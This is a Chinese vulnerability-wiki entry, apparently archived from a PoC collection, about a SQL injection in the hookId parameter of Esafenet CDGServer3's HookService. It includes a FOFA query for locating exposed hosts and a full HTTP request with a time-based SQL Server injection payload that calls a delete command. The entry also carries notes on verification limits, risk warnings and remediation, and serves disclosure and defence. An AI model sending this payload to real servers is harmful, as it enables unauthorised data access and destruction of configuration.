

# 亿赛通CDGServer3 HookService hookId SQL注入

## 条目说明

- 对象与具体问题：亿赛通CDGServer3；HookService hookId SQL注入
- 版本、配置及部署条件：版本未知；SQL Server且数据库名CobraDGServer
- 认证与权限前提：样例有Cookie；;logindojojs绕过语义未分析
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文厂商忆赛通错字；匿名结论需要无登录会话对照
- DelHookService为删除操作，hookId=1可能删真实配置，不能默认只读验证
- 5秒条件依赖db_name，未延时不证明无漏洞；需基线/真假条件计时
- 在野已知及服务器权限无出处，缺修复版本；HTTP加围栏

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

忆赛通电子文档安全管理系统/CDGServer3/parameter/HookService处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞获取数据库敏感信息，进一步利用可获取服务器权限。

## 影响版本

亿赛通

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/CDGServer3/index.jsp"

POC/EXP：

```http
GET /CDGServer3/parameter/HookService;logindojojs?command=DelHookService&hookId=1%27;if(db_name()=%27CobraDGServer%27)+WAITFOR+DELAY+%270:0:5%27--  HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=2E1EFAD5AA93A73F4184D010D43FF077
```





## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
